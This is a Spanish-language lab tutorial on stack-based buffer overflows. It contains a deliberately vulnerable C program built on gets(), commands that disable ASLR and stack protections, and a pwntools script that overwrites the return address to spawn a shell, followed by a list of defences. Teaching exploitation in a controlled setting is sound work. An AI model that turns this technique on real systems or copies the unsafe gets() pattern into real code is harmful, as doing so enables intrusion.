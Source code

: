 # Stack-Based Buffer Overflow

## 1. Introducción
Un **Stack-Based Buffer Overflow** ocurre cuando un programa escribe más datos de los permitidos en un buffer localizado en la pila (stack), sobrescribiendo la dirección de retorno de la función y permitiendo la ejecución de código arbitrario.

En este ejercicio, explotaremos una vulnerabilidad en un programa en C que usa la función insegura `gets()`, permitiendo sobrescribir la dirección de retorno y ejecutar una shell.

---

## 2. Preparación del Entorno

### **Desactivar Protecciones (Solo para Pruebas en Entorno Controlado)**
Algunas protecciones modernas dificultan la explotación de buffer overflows. Para facilitar la prueba:

1. **Desactivar ASLR (Address Space Layout Randomization)**:
   ```bash
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   ```
2. **Compilar el programa sin protecciones**:
   ```bash
   gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
   ```
   - `-fno-stack-protector`: Desactiva los canarios en la pila.
   - `-z execstack`: Permite la ejecución en la pila.

---

## 3. Código Vulnerable en C
Guarda el siguiente código como `vulnerable.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void shell() {
    system("/bin/sh"); // Llamada a una shell si logramos redirigir el flujo de ejecución
}

void vulnerable() {
    char buffer[64];
    printf("Introduce tu entrada: ");
    gets(buffer); // Función insegura (puede causar desbordamiento)
    printf("Tu entrada fue: %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}
```

Compila el programa:
```bash
gcc -fno-stack-protector -z execstack -o vulnerable vulnerable.c
```

---

## 4. Explotación con Python

### **1. Instalamos pwntools**
```bash
pip install pwntools
```

### **2. Creamos el Exploit en Python**
Guarda este script como `exploit.py`:

```python
from pwn import *

# Dirección de la función shell() en el binario (ajusta según objdump -d vulnerable | grep shell)
shell_addr = p32(0x08049182)  # Ajustar según la compilación

# Construcción del exploit
payload = b"A" * 68  # Relleno hasta la dirección de retorno
payload += shell_addr  # Sobrescribimos la dirección de retorno con la función shell()

# Ejecutar el programa y enviar el payload
p = process("./vulnerable")
p.sendline(payload)
p.interactive()  # Para interactuar con la shell obtenida
```

### **3. Ejecutamos el Exploit**
```bash
python3 exploit.py
```
Si todo sale bien, obtendremos una shell (`/bin/sh`).

---

## 5. Explicación de la Explotación
1. **El buffer es de 64 bytes**, pero la dirección de retorno está después de 4 bytes adicionales, por eso enviamos 68 (`64 + 4`).  
2. **Sobrescribimos la dirección de retorno con la de `shell()`**.
3. **Al ejecutar el programa con la carga maliciosa**, el flujo de ejecución salta a `shell()`, dándonos acceso a una shell del sistema.

---

## 6. Protecciones Contra Stack Overflow
1. **Canarios en la Pila**: Detectan corrupción antes de que la función retorne.
2. **ASLR (Address Space Layout Randomization)**: Aleatoriza direcciones de memoria para evitar predecir la dirección del shellcode.
3. **DEP (Data Execution Prevention)**: Bloquea la ejecución de código en la pila.

---

## 7. Ejercicios Adicionales
- **Modificar el exploit para inyectar shellcode en la pila.**
- **Bypass de ASLR obteniendo direcciones filtradas en la salida del programa.**
- **Ejemplo con Heap Overflow para ver otro tipo de explotación.**

